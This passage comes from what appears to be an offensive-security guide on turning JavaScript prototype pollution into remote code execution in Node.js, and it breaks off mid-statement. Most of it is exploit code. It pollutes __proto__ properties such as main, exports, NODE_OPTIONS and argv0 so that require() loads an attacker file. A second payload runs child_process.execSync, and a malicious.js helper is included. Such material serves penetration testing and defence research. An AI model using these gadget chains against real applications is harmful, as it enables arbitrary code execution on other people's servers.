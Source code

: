 ```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Install package bytes (it doesn't have a main in package.json)
// npm install bytes

// Manual Pollution
b = {};
b.__proto__.main = "/tmp/malicious.js";

// Trigger gadget
var proc = require("bytes");
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist

// Abusing the vulnerable code
USERINPUT = JSON.parse(
  '{"__proto__": {"main": "/tmp/malicious.js", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce_absolute\\").toString())//"}}'
);

clone(USERINPUT);

var proc = require("bytes");
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```

{{#endtab}}

{{#tab name="malicious.js"}}

```javascript
const { fork } = require("child_process");
console.log("Hellooo from malicious");
fork("anything");
```

{{#endtab}}
{{#endtabs}}

#### Relative require - 1

If a **relative path** is loaded instead of an absolute path, you can make node **load a different path**:

{{#tabs}}
{{#tab name="exploit"}}

```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Manual Pollution
b = {};
b.__proto__.exports = { ".": "./malicious.js" };
b.__proto__["1"] = "/tmp";

// Trigger gadget
var proc = require("./relative_path.js");
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist

// Abusing the vulnerable code
USERINPUT = JSON.parse(
```